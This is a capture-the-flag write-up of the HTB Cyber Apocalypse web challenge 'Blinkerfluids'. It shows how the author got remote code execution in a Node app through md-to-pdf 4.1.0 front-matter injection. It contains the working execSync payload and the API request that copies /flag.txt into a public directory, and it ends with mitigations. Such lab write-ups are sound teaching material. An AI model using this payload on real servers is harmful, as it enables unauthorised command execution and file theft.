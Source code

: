 ```yaml
---
layout: default
title: Blinkerfluids
---
```


# [Cyber Apocalypse](index.md) - Web - Blinkerfluids

> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-00.png)


In this challenge, a web application allows the user to create a markdown based invoice, and it will convert it to PDF. 

We are given a copy of the source code, so the first thing I do is explore that.

The web app is a docker container that runs a `node.js` based javascript web app.

The `Dockerfile` tells us that the flag can be found at /flag.txt:
```Dockerfile
# Add flag
COPY flag.txt /flag.txt
```

The file `MDHelper.js` contains code that uses the `md-to-pdf` module to convert a MarkDown document to a PDF.

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```
We can see that it dumps the finished PDF files in `./static/invoices/`.

A quick google search for "md-to-pdf exploits" leads me to numerous sites describing a Remote Code Execution vulnerability in this module prior to version `5.0.0`. The `package.json` file tells me that the version of this plugin that the app is using is `4.1.0`, so we should be able to use this to grab the flag.

The code in `MDHelper` doesn't appear to do any sanitization of the input, it just takes the raw input from the API endpoint and runs it through md-to-pdf. 

The proof of concept code for this exploit tells me that if I give it the following payload, I can run arbitrary commands on the server:
```
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```
Just typing this into the website produces an error.

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-01.png)

There is likely some sanitization code on the client-size (I didn't check), but I didn't see any on the API side when looking in the code, so lets try talking directly to the API.

I used [Insomnia](https://insomnia.rest) to send the following request body directly to `http://challenge-ip-and-port/api/invoice/add`. I had to replace the double-quotes with single-quotes, from the proof of concept code.
```json
{
    "markdown_content" : "---js\n((require('child_process')).execSync('cat /flag.txt > static/invoices/flag.txt'))\n---RCE"
}
```

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-02.png)

The response I got back was:
```json
{
    "message" : "Invoice saved successfully!"
}
```

Now all I needed to do was to visit `http://challenge-ip-and-port/static/flag.txt` to view the flag.

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```

I had originally tried to coax it into putting the flag data into the PDF, but realized I could just copy the file directly to a web-viewable directory and ignore the PDF.

This exploit could have been thwarted by:
 - Updating md-to-pdf to version 5.0.0 or above
 - Sanitizing user input in the API controller to only allow MarkDown
 - Running the app using a limited user account in the Docker container and setting proper permissions for sensitive files in the container.

